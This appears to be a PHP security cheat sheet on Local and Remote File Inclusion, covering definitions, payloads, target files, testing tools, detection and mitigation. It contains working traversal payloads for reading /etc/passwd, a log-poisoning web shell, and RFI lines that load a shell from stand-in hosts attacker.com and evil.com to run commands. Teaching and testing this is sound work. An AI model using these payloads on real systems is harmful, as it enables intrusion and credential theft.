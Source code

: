 # LFI (Local File Inclusion) & RFI (Remote File Inclusion)

LFI

Local File Inclusion — attacker tricks the application into including local files from the server’s file system.

RFI

Remote File Inclusion — attacker includes remotely hosted files (often malicious) via a vulnerable include/require statement.

Both occur when user input is used **unsanitized** in file-handling functions like:

include($\_GET\['page'\]);  
require($\_GET\['file'\]);

# Key Differences

| Feature | LFI | RFI |
| :---- | :---- | :---- |
| File Location | Local (on the server) | Remote (external URL) |
| File Access | Read/include local files like /etc/passwd | Load malicious scripts from remote servers |
| Common Impact | File disclosure, RCE via log injection | Remote code execution |
| Affected Settings | Works on default PHP config | RFI requires allow\_url\_include=On  |

# LFI Payload Examples

## Basic Local File Read   

?page=../../../../etc/passwd

## Directory Traversal Variants   

?page=....//....//....//etc/passwd  
?page=..%2f..%2f..%2fetc%2fpasswd

## Null Byte Injection (legacy PHP)

?page=../../../../etc/passwd%00

## Log Poisoning (LFI → RCE)

Inject PHP in User-Agent:  User-Agent: \<?php system($\_GET\['cmd'\]); ?\>  
Include Apache log file:  ?page=/var/log/apache2/access.log\&cmd=whoami

# RFI Payload Example

?page=http://attacker.com/shell.txt

Attacker-hosted file (shell.txt): \<?php system($\_GET\['cmd'\]); ?\>

Executes commands remotely: ?page=http://evil.com/shell.txt\&cmd=id

# Impact of LFI/RFI

| Type | Impact |
| :---- | :---- |
|  LFI | Disclosure of source code, credentials, tokens, /etc/passwd, logs |
|  LFI to RCE | Shell execution via log injection or upload directory |
|  RFI | Immediate Remote Code Execution |
|  Privilege Escalation | Read private keys, config files |
|  DoS | Load large or recursive files (e.g., /proc/self/environ) |

# Common LFI/RFI Targets

| File | Use |
| :---- | :---- |
| /etc/passwd | User enumeration |
| /proc/self/environ | Leak env variables |
| /var/log/apache2/access.log | Log poisoning |
| C:\\boot.ini | Windows file access |
| ../../uploads/shell.php | Access uploaded shell |

# Tools for Testing

| Tool | Purpose |
| :---- | :---- |
|  **Burp Suite** | Manual payload injection |
|  **LFI Suite** | Automates LFI/RFI testing |
|  **Ffuf / Dirsearch** | Find file parameters |
|  **WFuzz** | Brute-force file paths |
|  **Commix** (combo) | If RCE is achieved post-LFI |

# Detection Techniques

| Technique | Description |
| :---- | :---- |
|  Inject Traversal Payload | Observe file output (root:x:) |
|  Observe Error Messages | Look for failed to open stream |
|  Use Null Byte or URL encoding | Bypass file extension checks |
|  Access Known File | Try /etc/passwd, wp-config.php |
|  Log Poisoning | Inject PHP into headers and include logs |

# Mitigation

## 1\. Never Include Untrusted Input 

**include($\_GET\['file'\]);  // ❌ bad**  
**Use whitelisting**  
**$allowed \= \['home', 'about'\];**  
**$page \= in\_array($\_GET\['page'\], $allowed) ? $\_GET\['page'\] : 'home';**

## 2\. Disable Dangerous PHP Settings

**Turn off allow\_url\_include and allow\_url\_fopen:**

**php.ini:**  
**allow\_url\_include \= Off**  
**allow\_url\_fopen \= Off**

## 3\. Input Validation and Encoding

* **Block traversal (../, %2e%2e)**

* **Use strict input sanitization (e.g., regex for known slugs only)**

## 4\. Web Server Hardening

* **Disable directory listing**

* **Restrict readable files via .htaccess or nginx.conf**

## 5\. Use WAF and RASP

* **Detect directory traversal or remote inclusion patterns**

* **Block access to common LFI payloads**

# Points

LFI/RFI occurs when an app includes files based on user input **without sanitizing path or filename**.”

“LFI can escalate to RCE using **log injection**, **uploaded shells**, or **wrapper protocols** like php://input.”

“RFI is rare today due to **default PHP hardening**, but is still possible in legacy apps.”

# Real-World LFI/RFI Incidents

| Org | Issue |
| :---- | :---- |
| Joomla | RFI in older versions led to mass exploits |
| WordPress Plugins | LFI in vulnerable themes (timthumb.php) |
| CTFs & Bug Bounties | LFI → RCE chains common in exposed PHP apps |
| Government Sites | LFI revealed secrets via /proc/self/environ or log files |

